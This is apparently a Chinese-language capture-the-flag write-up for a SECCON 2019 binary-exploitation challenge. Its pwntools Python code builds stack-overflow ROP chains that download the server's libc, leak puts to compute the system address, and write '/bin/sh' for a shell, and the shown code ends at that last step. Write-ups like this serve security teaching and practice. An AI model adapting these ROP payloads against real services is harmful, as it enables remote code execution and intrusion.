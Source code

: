 ![4](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/4.jpg)

chdir可控，private中下载限制较多，如果我在public中得到private目录的下载权限，就可以下载libc

利用pop rdi和已有的./q/private字符串，执行chdir("./q/private")，然后跳到call chdir下方，成功打印出private，但是输入文件名就崩，必须从0x4014c9开始执行才能下载，但是如果从这里开始执行就无法控制目录



睡了俩小时突然想到为什么不直接调用download

读flag是不可能的，read完不能继续溢出。

读libc，文件中有libc.so.6字符串，尝试直接用，发现报 ./libc.so 没有这个文件

问题不大，我调read写个libc.so.6

```python
r.sendline('2')

payload = '_H4CK3R__H4CK3R__H4CK3R_'
payload =  payload.ljust(0x68,'a')+p64(pop_rdi)+p64(0)+p64(pop_rsi_15)+p64(0x602000)+p64(0)+p64(read_plt)+p64(pop_rdi)+p64(0x602000)+p64(puts_plt)+p64(0x40104E)
r.sendline(payload)
r.sendline('3XPL01717')
r.sendline('libc.so.6')

sleep(1)

r.sendline('2')
payload = '_H4CK3R__H4CK3R__H4CK3R_'
payload =  payload.ljust(0x68,'a')+p64(pop_rdi)+p64(0x602000)+p64(0x40153B)
r.sendline(payload)
r.sendline('3XPL01717')

r.recvuntil('bytes')
f = open('libc','w')
f.write(r.recvall())
```

sleep()那块卡了我一波，如果没有sleep会崩，我以为不可行，在sleep处r.interactive()看了一下发现是可行的

拿到libc之后这题就没了，泄露地址算偏移read写/bin/sh跳system就完事了

```python
r.sendline('2')
payload = '_H4CK3R__H4CK3R__H4CK3R_'
payload =  payload.ljust(0x68,'a')+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(0x40104E)
r.sendline(payload)
r.sendline('3XPL01717')
r.recvuntil('password : Invalid username\n')

puts = u64(r.recvuntil('\n1:',drop=True).ljust(8,'\x00'))
log.info(puts)
log.success('puts:'+hex(puts))

puts_libc = 0x67880
libc_base = puts - puts_libc
system = libc_base+0x3f570

r.sendline('2')

payload = '_H4CK3R__H4CK3R__H4CK3R_'
payload =  payload.ljust(0x68,'a')+p64(pop_rdi)+p64(0)+p64(pop_rsi_15)+p64(0x602000)+p64(0)+p64(read_plt)+p64(pop_rdi)+p64(0x602000)+p64(puts_plt)+p64(0x40104E)

r.sendline(payload)
r.sendline('3XPL01717')
r.sendline('/bin/sh')
```